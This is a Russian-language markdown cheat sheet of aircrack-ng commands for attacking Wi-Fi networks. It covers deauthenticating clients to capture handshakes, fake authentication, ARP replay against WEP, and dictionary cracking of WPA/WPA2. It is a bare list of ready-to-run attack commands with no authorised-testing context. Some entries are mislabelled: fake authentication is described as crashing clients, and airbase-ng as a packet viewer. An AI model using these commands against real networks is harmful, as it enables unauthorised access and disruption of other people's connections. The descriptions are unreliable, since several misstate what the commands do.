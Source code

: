 ![[Pasted image 20241023152401.png]]

## Сканирование доступных сетей Wi-Fi:

```
airmon-ng start интерфейс
airodump-ng интерфейс
```

## Захват трафика Wi-Fi и сохранение в файл:

```
airodump-ng -w имя_файла --bssid BSSID --channel канал интерфейс
```

## Захват трафика для всех сетей:

```
airodump-ng -w имя_файла интерфейс
```

## Деавторизация клиента (атака для перехвата хендшейка):

```
aireplay-ng --deauth количество_пакетов -a BSSID -c MAC_клиента интерфейс
```

## Краш клиента с помощью фальшивой точки доступа:

```
aireplay-ng --fakeauth 0 -a BSSID интерфейс
```

## Взлом WPA/WPA2 с использованием захваченного хендшейка:

```
aircrack-ng -w путь_к_словарю имя_файла.cap
```

## Перехват хендшейка WPA/WPA2:

```
airodump-ng --bssid BSSID --channel канал --write имя_файла интерфейс
```

## Атака на WEP шифрование (FMS/Korek):

```
aircrack-ng -b BSSID имя_файла.cap
```

## Фальшивая аутентификация (Fake Authentication):

```
aireplay-ng --fakeauth 0 -a BSSID -h MAC_вашего_интерфейса интерфейс
```

## Атака на сеть WEP с использованием ARP Replay:

```
aireplay-ng -3 -b BSSID интерфейс
```

## Проверка уязвимостей сети WEP:

```
aireplay-ng -9 интерфейс
```

## Восстановление WEP-ключа:

```
aircrack-ng имя_файла.cap
```

## Сканирование и поиск скрытых SSID:

```
airodump-ng --essid "" интерфейс
```

## Остановка режима мониторинга:

```
airmon-ng stop интерфейс
```

## Список доступных беспроводных интерфейсов:

```
airmon-ng
```

## Просмотр списка пакетов, отправленных и принятых устройством:

```
airbase-ng -c канал --essid "название_сети" интерфейс
```

## Получение информации о беспроводной сети:

```
iwconfig интерфейс
```